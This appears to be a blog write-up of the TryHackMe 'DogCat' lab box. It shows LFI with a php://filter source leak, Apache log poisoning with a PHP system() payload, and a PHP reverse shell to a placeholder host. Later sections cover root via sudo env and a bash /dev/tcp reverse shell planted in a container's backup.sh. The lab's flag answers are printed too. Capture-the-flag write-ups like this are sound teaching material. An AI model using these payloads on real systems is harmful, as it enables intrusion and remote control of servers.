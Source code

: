 ```yaml
---
title: TryHackMe - DogCat
description: My writeup on DogCat box.
categories:
 - tryhackme
tags: tryhackme LFI php logpoisoning sudo env docker
---
```


![](https://i.imgur.com/otcW2ZH.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **DogCat**  |
| Difficulty :  | **Medium**             |
| Play :    | [DogCat](https://tryhackme.com/room/dogcat){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

This was an awesome box, with lot of LFI, php analysis etc i'll not say much, let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.157.103
$ nmap -sC -sV -oN nmap/dogcat.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-30 22:20 EET
Nmap scan report for 10.10.157.103 (10.10.157.103)
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```

Once we visit the website, we can see 2 buttons `A dog` & `A cat`.

![](https://i.imgur.com/DuBz9Wy.png)

We click a random one and we can see the URL goes like that `?view=dog`, that's probably LFI. LFI (Local File Inclusion) allow us to read files on the victim machine. The most common way to test that is by using the `/etc/passwd` file. Let's try it.

`http://$ip/?view=/etc/passwd` -> This gives an error `Sorry, only dogs or cats are allowed.` Let's try to add dog or cat in the URL.

`http://$ip/?view=dog/etc/passwd` -> This gives an error `Warning: include(dog/etc/passwd.php)` We can see it adds `.php` in all files, we can't read `/etc/passwd` but we can read the `index.php` source code! When we have LFI we can’t read php files because they get executed by the webserver. So we will do a trick to bypass that using base64.

Also here we have to apply a directory traversal attack `../`

```
$ curl -s "http://$ip/?view=php://filter/convert.base64-encode/resource=dog../../index"
PCFET0NUWVBF..data...go8L2h0bWw+Cg==
```

After we decode it we have the source code:

```php
function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
      }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
```

Now we have to do source code analysis. The most important thing in the source code is this variable:

```php
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
```

We have a `ternary operator`, is an alternative method for using if-else statements. The syntax goes like that:

`(Condition) ? (Statement1) : (Statement2);`

We have the `$_GET`, is a PHP super global variable for collecting form data. For example `$_GET['pwn']` in URL will be like that `?pwn=`

So it translates to `ext` parameter should be equal to the `ext` GET parameter, else we it use `.php`

So we just have to add `&ext` to URL to read files.

```
$ curl -s "http://$ip/?view=dog../../../../../etc/passwd&ext"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

## Shell as www-data

Now we need to turn LFI into RCE. We will do apache log poisoning but to do that we need to be able to read log files. Let's try to load apache `access.log` file. `/var/log/apache2/access.log`

![](https://i.imgur.com/CnTRnmL.png)

Perfect, now let's fire up burp. Capture the request and inject this php code inside user-agent `<?php system($_GET['pwn']); ?>` also add to URL the parameter `&pwn=whoami`

![](https://i.imgur.com/1u7LGtU.png)

We have RCE!

```
$ curl -s "http://$ip/?view=dog../../../../../var/log/apache2/access.log&ext&pwn=whoami" | grep "www-data"
10.9.234.105 - - [30/Dec/2020:21:23:34 +0000] "GET /?view=dog../../../../../var/log/apache2/access.log&ext&pwn=whoami HTTP/1.1" 200 1991 "-" "Mozilla/5.0 www-data
```

Now we can simply send our reverse shell (remember to URL encode!)

```
$ curl -s "http://$ip/?view=dog../../../../../var/log/apache2/access.log&ext&pwn=php%20-r%20%27%24sock%3Dfsockopen%28%22<tun0 ip>%22%2C<port>%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27"
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's search for the flags:

```
$ find / -name "flag*" 2>/dev/null
/var/www/html/flag.php
/var/www/flag2_QMW7JvaY2LvK.txt
```

Flag 1: `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`

Flag 2: `THM{LF1_t0_RC3_aec3fb}`

## Shell as root

Now privesc to root is simply, let's just check `sudo -l`:

```
$ sudo -l
Matching Defaults entries for www-data on bf18790496b8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on bf18790496b8:
    (root) NOPASSWD: /usr/bin/env
```

We can run `env` as root, easy to exploit.

```
$ sudo env /bin/bash
whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Flag 3: `THM{D1ff3r3nt_3nv1ronments_874112}`

Hm.. we miss 1 flag tho. If we check the system root directory, we can see that we're inside docker container.

```
root@bf18790496b8:/# ls -la
total 80
drwxr-xr-x   1 root root 4096 Dec 30 20:19 .
drwxr-xr-x   1 root root 4096 Dec 30 20:19 ..
-rwxr-xr-x   1 root root    0 Dec 30 20:19 .dockerenv
...data...
```

We can also check that by the container id in the hostname.

```
root@bf18790496b8:/# hostname
bf18790496b8
```

Checking around the system i found under `/opt` as `backup.sh` file, seems like is running in the background. Let's add a reverse shell in.

```
root@bf18790496b8:/opt/backups# echo "bash -c 'bash -i >& /dev/tcp/<tun0 ip>/6666 0>&1'" > backup.sh
```

```
$ nc -lvp 6666
listening on [any] 6666 ...

root@dogcat:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Flag 4: `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
